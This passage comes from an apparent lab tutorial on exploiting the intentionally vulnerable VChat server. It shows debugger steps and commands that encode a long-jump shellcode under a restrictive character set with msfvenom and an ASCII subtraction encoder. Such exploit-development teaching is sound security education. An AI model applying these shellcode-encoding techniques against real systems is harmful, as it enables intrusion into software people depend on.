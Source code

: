 	1. We can modify the exploit program to reflect [exploit10.py](./SourceCode/exploit10.py) and test the program as we have done previously. This allows us to verify the stack repositioning used before the encoded long jump is placed on the stack.

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/d14cb21b-3068-4f66-ab22-53cd62c0e7c0

		1. Click on the black button highlighted below, and enter the address we decided in the previous step.

			<img src="Images/I16.png" width=600>

		2. Set a breakpoint at the desired address (right-click); in this case, I chose `0x6250184E`.

			<img src="Images/I26.png" width=600>

		3. Run [exploit10.py](./SourceCode/exploit10.py), and pass the exception to the VChat program.

			<img src="Images/I45.png" width=600>

6. Now we can use a pre-made encoder to generate the shellcode used to perform the long jump. The author of the blog this is based on used their own modification of an encoder known as the [Automatic-ASCII-Shellcode-Subtraction-Encoder](https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder). We can try and use a more well known [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) encoders first!
	1. Using the [exploit10.py](./SourceCode/exploit10.py) and the Immunity Debugger's assembler I generated the machine code for the long jump operation `E956F2FFFF`, although you should not jump to the very start of your buffer, I was able to get it to work when doing this, otherwise the jump instructions were off in my case.

		<img src="Images/I46.png" width=600>

	2. Generate the machine code (byte) file
		```
		python -c "buff= b'\xe9\x56\xf2\xff\xff'; fd = open('jmp_e10.bin', 'wb'); fd.write(buff)"
		```
	3. Generate the shellcode with [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) using the [`x86/xor_poly`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/shikata_ga_nai) encoder.

		```
		cat jmp_e10.bin | msfvenom -p - -a x86 --platform windows -e x86/opt_sub  -f python -v SHELL -b '\x00x\0a\x0d\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
		```
		* So far, the encoders I have tried do not work due to the restrictive character set or length of the encoded string! We can generate encoded shellcode using these, but not with the restrictive character set for those I have tried.
	4. Download the [Automatic-ASCII-Shellcode-Subtraction-Encoder](https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder), enter into it's directory, and install `z3-solver`.
		```
		$ git clone https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder.git && cd Automatic-ASCII-Shellcode-Subtraction-Encoder && pip install z3-solver
		```
	5. Run the following command to generate the encoded long jump shellcode.
		```
		python3 encoder.py -m -p -s 'E956F2FFFF ' -v JUMP_ENCODE
		```
		* `python3 encoder.py`: Run the `encoder.py` with the python3 interpreter.
		* `-m`: Generates shellcode in the format expected by python `\x00 - \xff`.
		* `-p`: Pad shellcode so it is a multiple of 4.
		* `-s <Shellcode>`: Shellcode to encode as we added the `-p` flag. This can be of any length.
		* `-v`: Name of variable for output.